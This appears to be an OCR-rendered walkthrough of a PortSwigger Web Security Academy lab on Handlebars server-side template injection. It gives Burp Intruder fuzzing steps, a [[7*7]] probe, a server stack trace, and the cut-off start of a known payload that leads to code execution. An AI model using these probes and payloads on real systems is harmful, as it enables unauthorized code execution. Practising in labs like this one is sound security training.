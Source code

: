 ```bash
Send to Repeater
Send to Intruder
Go to: Intruder
Payload Positions:

GET /?message=§test§ HTTP/1.1

Go to:

https://github.com/payloadbox/ssti-payloads

Copy the payloads and adjust the relevant multiplication expressions to represent 7*7
Go to: Intruder -> Payloads -> Payload Options[Simple list]
Load the SSTI enumeration file
Go to: Options
Grep - Match
Clear
Add '49'
Start attack
Note the '49' response for payload:
(There are numerous responses)
I found it easier to just append [[7*7]] to:

https://0a6f002e041ae688c0bf164a0093002e.web-security-academy.net/?message=

Like so:

https://0a6f002e041ae688c0bf164a0093002e.web-security-academy.net/?message=[[7*7]]

Response:

Internal Server Error

/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267 throw new Error(str); ^ Error: Parse error on line 1: [[7*7]] --^ Expecting 'ID', 'STRING', 'NUMBER', 'BOOLEAN', 'UNDEFINED', 'NULL', 'DATA', got 'INVALID' at Parser.parseError (/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19) at Parser.parse (/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30) at HandlebarsEnvironment.parse (/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43) at compileInput (/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19) at ret (/usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18) at [eval]:5:13 at Script.runInThisContext (vm.js:122:20) at Object.runInThisContext (vm.js:329:38) at Object.<anonymous> ([eval]-wrapper:6:22) at Module._compile (internal/modules/cjs/loader.js:778:30)

Google:

search /usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js

Handlebars

Google:

Handlebars ssti

Find:

https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

[[#with "s" as |string|]]
  [[#with "e"]]
    [[#with split as |conslist|]]
      [[this.pop]]
      [[this.push (lookup string.sub "constructor")]]
```